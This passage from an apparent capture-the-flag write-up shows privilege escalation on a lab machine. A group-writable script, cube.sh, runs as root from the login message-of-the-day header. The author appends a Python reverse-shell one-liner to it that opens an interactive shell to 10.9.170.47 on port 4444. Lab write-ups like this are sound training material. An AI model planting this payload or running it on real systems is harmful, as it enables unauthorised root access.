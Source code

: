 ```
baksteen@fowsniff:/opt/cube$ ls -al cube.sh 
-rw-rwxr-- 1 parede users 851 Mar 11  2018 cube.sh
```

This file is related with `motd.d` which is displayed as root in the beginning of a session.

Let's check `/etc/update-motd.d/00-header`

```
# cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#	# Fall back to using the very slow lsb_release utility
#	DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```

<br />

#### 5. Modifying `cube.sh` and getting shell

I add python one liner in the end of `cube.sh`

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.170.47",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
